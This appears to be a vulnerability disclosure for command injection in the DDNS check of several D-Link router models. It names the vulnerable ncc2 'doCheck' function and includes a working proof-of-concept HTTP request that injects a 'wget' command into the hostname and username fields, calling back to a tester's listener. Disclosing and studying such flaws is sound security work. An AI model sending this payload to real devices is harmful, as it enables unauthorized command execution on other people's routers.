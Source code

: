 # D-LINK_Router_Command_Injection

#### Official certification
https://supportannouncement.us.dlink.com/announcement/publication.aspx?name=SAP10264

#### Impact equipment

D-Link DIR-820L  (Rev A) ALL

D-Link DIR-820L  (Rev B) ALL

DIR-830L A1 

D-Link DIR-810L (Rev A) ALL

D-Link DIR-810L (Rev B) ALL

D-Link DIR-810L (Rev A) ALL

D-Link DIR-826L (Rev A) ALL

DIR-836L (Rev A) 

DIR-820LW (Rev A)

#### Firmware_link

https://tsd.dlink.com.tw/

#### Detail

​	Router firmware such as D-Link dir-820l checks the DDNS function in ncc2 binary file for command injection, which can cause arbitrary command execution

#### Detail

​	There is a “doCheck” function in the ncc2 binary file, as shown below in IDA

<img src="./img/image-20211219002658341.png" alt="image-20211219002658341" style="zoom:50%;" />

​	 Can see that the ddnshostname and ddnusername variables are controllable and directly brought in without any check_ System function this function is essentially the execution of the formatted system function, resulting in command injection	

<img src="./img/image-20211219003013336.png" alt="image-20211219003013336" style="zoom:50%;" />

#### POC

```
POST /ddns_check.ccp HTTP/1.1
Host: 192.168.0.1
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:95.0) Gecko/20100101 Firefox/95.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 186
Origin: http://192.168.0.1
Connection: close
Referer: http://192.168.0.1/storage.asp
Cookie: hasLogin=1

ccp_act=doCheck&ddnsHostName=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsUsername=;wget${IFS}http://192.168.0.100:9988/doudou.txt;&ddnsPassword=123123123
```

#### TEXT

​	Local listening port 9988

![image-20211219003400865](./img/image-20211219003400865.png)

​	Send the following packets

​	![image-20211219003610213](./img/image-20211219003610213.png)

​	HTTP requests from routers can be received locally	

![image-20211219003729282](./img/image-20211219003729282.png)
